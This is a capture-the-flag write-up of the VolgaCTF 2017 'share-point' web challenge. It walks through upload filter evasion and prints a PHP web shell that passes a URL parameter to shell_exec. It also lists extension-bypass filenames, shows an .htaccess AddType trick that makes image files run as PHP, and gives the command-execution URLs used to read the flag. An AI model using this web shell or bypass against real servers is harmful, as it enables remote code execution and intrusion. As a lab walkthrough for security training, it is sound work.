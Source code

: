 <h3>Login</h3>

Weak authentication
After playing around with the credential fields you get some errors / warnings that tell you the requirements.

**User name:** Must be atleast 4 characters
**Password:** Any 8 characters. (If another user is logged in, as that username it may error and say wrong password).

<h3>File upload</h3>

Right away redirected to a file upload. Ok lets upload a picture and see what happens, upload freakazoid.png.  Can navigate to it and view the picture.  Notice everything is PHP. Great lets try a PHP file with command execution inside.

```
<?php
if (isset($_GET['cmd'])){
  print(shell_exec($_GET['cmd']));
}
```
PHP is blocked. Damn. Ok lets upload a PHP file, without a PHP extension.

Success, ok lets try a few different file extensions to understand what is happening.

* file.php.png [yes]
* file.png.php [no]
* file.php;png [yes]
* file.php%00.png [yes]
* file.php.php.png [yes]
* file.png.php.php [no]
* file.php.png123 [yes]
* file.png%00file.php [no]
* file.png' or 1=1# [no]
* file [yes]

For every file that successfully uploaded I tried to view them, and use `<url>?cmd=ls` to see if I could get the php to execute my commands. Nothing worked! 

I stumbled around for along time, but 2-3 more hours exploring fuctionality of sharing, exploring the `Content-type` field in the `POST` request using burp.  Tried LFI, directory traversal.

I openend some php file upload filter evasion links, and read them thoroughly, after playing with the `Content-type` a post about `.htaccess` file types caught my eye. I had NOT tried that. Let's try it.

I Create a blank file called `file.htaccess`. It uploaded! Ok the link said to upload the file `.htaccess` to the server and have the contents:

```
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .png
```

What does this do? the `AddType` in an `.htaccess` file can tell the webserver to run many other extensions types as PHP, one reason why `.html` files work with PHP inside of them.

Uploading `.htaccess` worked. I then uploaded my PHP code execution file (code above) as the file `file.png`. I navigated to the link from the Files section of the website.

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png`

I then added the parameter (again from the code above) `?cmd=` to the end to verify if PHP would execute.

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=ls`

Success!!!!!!

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=ls+-al'

Works!

Ok, lets just see if this works:

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=locate flag`

Success again! Multiple results! The first is `/opt/flag.txt` lets see what is inside.

`http://share-point.quals.2017.volgactf.ru/files/AAAA/kek.php.png?cmd=cat%20/opt/flag.txt`

THE FLAG IS IN HERE!!!!


VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
